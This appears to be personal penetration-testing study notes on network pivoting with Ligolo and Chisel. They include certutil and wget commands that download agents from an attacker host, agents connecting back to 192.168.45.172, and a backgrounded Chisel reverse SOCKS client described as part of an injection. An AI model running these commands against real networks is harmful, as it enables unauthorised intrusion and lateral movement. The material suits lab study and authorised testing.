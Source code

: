 ![[Pasted image 20250725104117.png]]


## LIGOLO

first run
```
sudo ip tuntap add user kali mode tun ligolo
```
then run
```
sudo ip link set ligolo up
```
then we start ligolo using
```
cd /opt/ligolo
```
```
sudo ./proxy -selfcert -laddr 0.0.0.0:8081
```

### Transferring Commands
#### WINDOWS
```
certutil -f -urlcache -split http://<>/agent.exe agent.exe
```
#### LINUX
```
wget http://<>/linux-agent
```

### WINDOWS HOST
then we trf the agent.exe to the  host and ran
```
./agent.exe -connect 192.168.45.172:8081 --ignore-cert
```
### LINUX HOST
```
./linux-agent -connect 192.168.45.172:8081 --ignore-cert
```
THEN RUN
to add the ip routes
```
sudo ip route add 10.10.83.0/24 dev ligolo
```
and run 
```
start
```
on ligolo, tunnel is up and running


can delete ip route using
```
sudo ip route del 10.10.190.0/24 dev ligolo
```





## CHISEL

```
chisel server --port 8080 --reverse
```
We want to connect to the server running on our Kali machine (**192.168.118.4:8080**), creating a reverse SOCKS tunnel (**R:socks**). The **R** prefix specifies a reverse tunnel using a **socks** proxy (which is bound to port **1080** by default). The remaining shell redirections (**> /dev/null 2>&1 &**) force the process to run in the background, so our injection does not hang waiting for the process to finish.

```
/tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &
```